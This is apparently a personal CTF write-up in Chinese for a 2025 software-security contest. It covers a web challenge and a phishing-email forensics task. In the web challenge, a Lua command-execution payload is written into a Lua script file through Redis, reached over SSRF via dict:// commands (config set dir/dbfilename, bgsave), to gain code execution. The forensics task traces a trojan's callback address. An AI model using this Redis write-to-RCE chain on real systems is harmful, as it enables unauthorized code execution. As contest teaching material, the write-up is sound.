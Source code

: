```yaml
---
title: "CCSSSC2025"
date: 2025-01-05
draft: false
description: "软件安全攻防赛 2025"
summary: "软件安全攻防赛 2025 个人WriteUP"
tags: ["writeup", "ctf"]
categories: ["writeup"]
---
```


## WEB

### CachedVisitor

[题目附件](/posts/ccsssc2025/attachments/fishingemail_25da885af63965bf249067b64099c319attachment_20250102090654845.zip)

部分有用的测试：

![可出网证明](/posts/ccsssc2025/img/CachedVisitor-1.png)

![文件读取证明](/posts/ccsssc2025/img/CachedVisitor-2.png)

![dict协议可用证明](/posts/ccsssc2025/img/CachedVisitor-3.png)

容器出网且可读取文件

dict协议可用，可访问redis

分析了一下源代码

```main.lua```从```visit.script```中读取```\##LUA_START##```和```##LUA_END##```之间的内容作为脚本运行

```dockerfile
COPY flag /flag
COPY readflag /readflag
RUN chmod 400 /flag
RUN chmod +xs /readflag
```

flag设置了权限无法直接读取

尝试使用redis写visit.script进行RCE

在本地docker编写lua测试可以输出flag

```lua
##LUA_START##ngx.say(io.popen('/readflag'):read('*all'))##LUA_END##
```

直接使用redis将lua写入visit.script

```
dict://127.0.0.1:6379/set:payload:"##LUA_START##ngx.say(io.popen('/readflag'):read('*all'))##LUA_END##"
dict://127.0.0.1:6379/config:set:dir:/scripts/
dict://127.0.0.1:6379/config:set:dbfilename:visit.script
dict://127.0.0.1:6379/bgsave
```

写入之后随意发送一个请求即可执行我们写入的脚本

> ```dart{dc2e4048-dca7-4fa3-9803-8ee9d785af2b}```

## Misc

### Fishing E-mail

> Bob收到了一份钓鱼邮件，请找出木马的回连地址和端口。 假如回连地址和端口为123.213.123.123:1234，那么敏感信息为MD5(123.213.123.123:1234)，即d9bdd0390849615555d1f75fa854b14f，以Cyberchef的结果为准。

[题目附件](/posts/ccsssc2025/attachments/CachedVisitor.zip)

```yaml
Content-Transfer-Encoding: base64
```

发现编码格式是Base64，我们直接解码查看内容

```
今天是你的24岁生日，祝你生日快乐

<div class="qmbox"><p style="font-family: -apple-system, BlinkMacSystemFont, &quot;PingFang SC&quot;, &quot;Microsoft YaHei&quot;, sans-serif; font-size: 10.5pt; color: rgb(46, 48, 51);">今天是你的24岁生日，祝你生日快乐</p><div xmail-signature=""><xm-signature></xm-signature><p></p></div></div>

生日礼物.zip(BIN)
```

丢CyberChef提取zip发现有密码

```
Date: Mon, 11 Nov 2024 12:54:24 +0800
```

根据生日推测密码```20001111```

成功解压得到exe

在虚拟机中运行后抓包得到反连地址

![抓包结果](/posts/ccsssc2025/img/Fishing_E-mail.png)

> MD5(222.218.218.218:55555)
>
> df3101212c55ea8c417ad799cfc6b509
